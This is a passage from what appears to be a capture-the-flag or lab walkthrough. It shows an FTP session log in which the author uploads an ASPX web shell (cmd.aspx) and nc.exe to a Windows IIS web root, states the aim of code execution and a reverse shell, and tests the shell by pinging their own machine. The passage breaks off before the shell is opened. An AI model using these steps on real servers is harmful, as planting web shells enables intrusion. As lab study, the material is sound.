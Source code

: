 ```none
ftp> put cmd.aspx
local: cmd.aspx remote: cmd.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1442 bytes sent in 0.01 secs (154.4082 kB/s)
ftp> put nc.exe
local: nc.exe remote: nc.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
59584 bytes sent in 0.02 secs (2.6095 MB/s)
ftp> exit
221 Goodbye.
```

At this point, I had all the files on the webserver to get a code execution and a reverse shell.

```none
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
07-17-21  02:15AM                 1442 cmd.aspx
03-17-17  05:37PM                  689 iisstart.htm
07-17-21  02:18AM                59392 nc.exe
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```

Then I tested that I had a network connection using the APSX web shell, and pinging my machine.

![ASPX command ping](screenshots/80_webshell_ping.png)
